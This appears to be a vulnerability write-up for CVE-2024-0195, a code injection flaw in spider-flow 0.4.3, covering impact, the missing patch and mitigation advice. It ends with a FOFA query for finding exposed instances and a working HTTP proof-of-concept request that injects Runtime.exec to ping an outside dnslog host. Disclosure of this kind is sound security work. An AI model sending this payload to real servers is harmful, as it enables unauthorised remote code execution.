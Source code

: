 # CVE-2024-0195 Improper Control of Generation of Code ('Code Injection') Critical 2024

# Summary
CVE-2024-0195 is a critical code injection vulnerability in the spider-flow 0.4.3 web application, specifically in the FunctionService.saveFunction function of the FunctionController.java file. An attacker can remotely inject malicious code which gets executed on the server. This allows complete compromise of the application.

# Impact..
This vulnerability is extremely severe as it allows remote code execution on the server hosting the vulnerable spider-flow application. An attacker could fully compromise the server, steal sensitive data, install malware or crypto miners, and use it for further attacks inside the network. The confidentiality, integrity and availability of the application and server are all critically impacted.

# Patch
A patched version is not explicitly mentioned, so patching currently does not seem to be an option. The vulnerability was publicly disclosed and exploits are available, so immediate mitigation is critical.

# Mitigation
Until an official patch is released, spider-flow 0.4.3 should be immediately taken offline or access restricted only to trusted networks/users. Web application firewalls or other input validation controls could potentially be configured to detect and block attempted code injection attacks as an interim mitigation. However, these are not full solutions and the vulnerable version should be upgraded as soon as a fixed release is available.

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H


# Exploitation
FOFA : app="spiderflow"

✔ Proof of concept 

```
POST /function/save HTTP/1.1
Host: 192.168.116.128:8080
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 139

id=&name=test&parameter=test&script=return+java.lang.%2F****%2FRuntime%7D%3Br%3Dtest()%3Br.getRuntime().exec('ping+18k2tu.dnslog.cn')%3B%7B
```
